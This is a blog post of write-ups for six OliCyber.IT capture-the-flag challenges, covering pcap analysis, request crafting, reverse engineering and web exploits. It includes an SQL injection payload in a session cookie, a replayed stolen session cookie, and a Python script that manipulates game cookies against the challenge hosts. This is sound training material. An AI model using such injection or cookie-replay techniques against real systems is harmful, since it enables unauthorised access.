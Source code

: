 ```yaml
---
title: Zbiorczy CTF - OliCyber.IT
author: k1k9
categories: [web, OliCyberIT, misc]
tags: [ctf]
---
```


<!-- Write table of contents -->
## Table of contents
1. [Easy login](#easy-login)
2. [Pretty please](#pretty-please)
3. [ToDO](#todo)
4. [Monty Hall](#monty-hall)
5. [Section31](#section31)
6. [Ghost](#ghost)

## Easy login
We managed to intercept a user logging into a website, try to find the flag. \
Website: http://easylogin.challs.olicyber.it \
File: capture.pcapng \
Solves: 98 \
Points: 150 
The task revolves around analyzing a pcapng file. The file contains web traffic that comes from logging into a website. The file contains a GET request to a URI ```/flag``` with header:
```http
Cookie: session=d6f816cd031715f733539affe057b5103530c23ff9aa01c5c4e71990ac2ae2ac
```
So all we need to do is read the value of the Cookie header and send it in a GET request to the URI ```/flag```.

## Pretty please
Sometimes you should just ask :) \
Sito: http://prettyplease.challs.olicyber.it
Solves: 148 \
Points: 100

When we enter the page, we are informed that to receive the flag we need to ask for one of the options available in the select box. We also have access to the source code of the web page, after a short analysis we can see that to receive the flag it is enough to send the following POST request:

```http
POST / HTTP/1.1
Host: prettyplease.challs.olicyber.it

how=pretty+please
```

## ToDO
Volevo imparare Python e Flask, niente di meglio di una todo app, a quanto dice Reddit! \
Website: http://todo.challs.olicyber.it \
File: todo-src.zip \
Solves: 31 \
Points: 200

After download and unzip the file, i can see that the application is vulnerable to SQL Injection in the ```get_user_from_session``` function.

This function returns a user based on the value from the session (uuid4). Having the entire application code, we can see which user stores the flag:

```python
def _setup(self):
        cursor = self.get_cursor()
        # ...
        antonio_id = str(uuid.uuid4())
        flag_task_id = str(uuid.uuid4())
        FLAG = os.getenv('FLAG', 'flag{placeholder}')

        cursor.execute("INSERT INTO users (id, username, password_hash) VALUES ('%s', 'antonio', '')" % antonio_id)

        cursor.execute("INSERT INTO tasks (id, description, added_at, completed, user_id) VALUES ('%s', 'Submit the flag: %s', '2021-01-01', 0, '%s')" % (flag_task_id, FLAG, antonio_id))

        self.commit()
        cursor.close()
```

Having the knowledge of which query is responsible for selecting the appropriate user and where the flag is, we can construct the appropriate SQL Injection query:

```http
GET /todo HTTP/1.1
Host: todo.challs.olicyber.it
Cookie: session=k1k9' UNION SELECT id, username FROM users WHERE username='antoniox
```

## Monty Hall
Pokémon Platinum is the best one: Turnback Cave \
Website: http://monty-hall.challs.olicyber.it \
File: monty_hall.zip
Solves: 17 \
Points: 225

On the very beginning I started to analyze the source code of the application. After analyzing the source code, I see that the application saves all our choices in an encrypted AES cookie. I have almost all the necessary information to manipulate cookie, except for the encryption key. \

Breaking 16 bytes of AES in CBC mode is impossible in a reasonable time, so we need to find another way to get the key. \

After a long search, I noticed that with each of our choices, the encrypted cookie is getting longer and longer. Which basically suggests that the solution should be treated as race condition.

Race condition in this case is that the encrypted cookie is saved depending on our choice, not whether we won or lost. \
So when we choose right door, the cookie will be longer than our initial cookie and when we choose wrong door, the cookie will be pretty much the same length as our initial cookie. \

So i wrote a script:
```python
import requests

door = 1
flag = False
cookie = ""
tmpCookie = "1"

while not flag:
    door = door+1 if door < 3 else 1
    cookie = cookie if len(cookie) > len(tmpCookie) else tmpCookie
    resp = requests.post("http://monty-hall.challs.olicyber.it/",
                         headers={"Cookie": f"session={cookie}"},
                         data={"choice": door})
    try: tmpCookie = resp.cookies["session"]
    except: pass
    print(f"[{resp.status_code}] {door} - {cookie}")
    if "flag" in resp.text:
        flag = resp.text.split("<h1>")[1].split("</h1>")[0]
        break
print(f"\n\nFound flag: {flag}")
```
## Section31
To solve this challenge you need to watch the entire Star Trek series. GLHF \
File: section31 \
Solves: 100 \
Points: 75

This task was from the easiest ones. The flag was hidden in binary code of given file: 

![alt text](/assets/posts/olicyberit/Section31.png)

All you need to do is separate flag characters from other chars.

## Ghost
This binary seems scary, it has some ghosts in it. \
File: ghost \
Solves: 42 \
Points: 175

I've started by looking to strings and find something interesting:
```MRktNUU1OSHVbGXVeCV5fS0ZGWzVfWVkMX0Z1Ug5TGQxcCUlXag=``` with looks like base64 encoded string. After decoded it we see only raw bytes.

So I decided to static analyze the binary in Ghidra. After a while I found the functions that are responsible for decoding the flag from base64 and next on raw bytes performing XOR operation and bytes shifting.

![alt text](/assets/posts/olicyberit/ghost.png)

I wrote a python script to decode the flag:
```python
import base64

def fun(data):
    for i in range(0, len(data)):
        data[i] = ((data[i] >> 2) | (data[i] << 6) & 0xFF) ^ 0x2A
    return data

base64String = "MRktNUU1OSHVbGXVeCV5fS0ZGWzVfWVkMX0Z1Ug5TGQxcCUlXag="
decoded = base64.b64decode(base64String)
sample_data = bytearray(decoded)
print(fun(sample_data))
```
But after receiving the flag, I realized that to solve this task all you need to do is run binary with ```gdb``` and dynamically analyze program.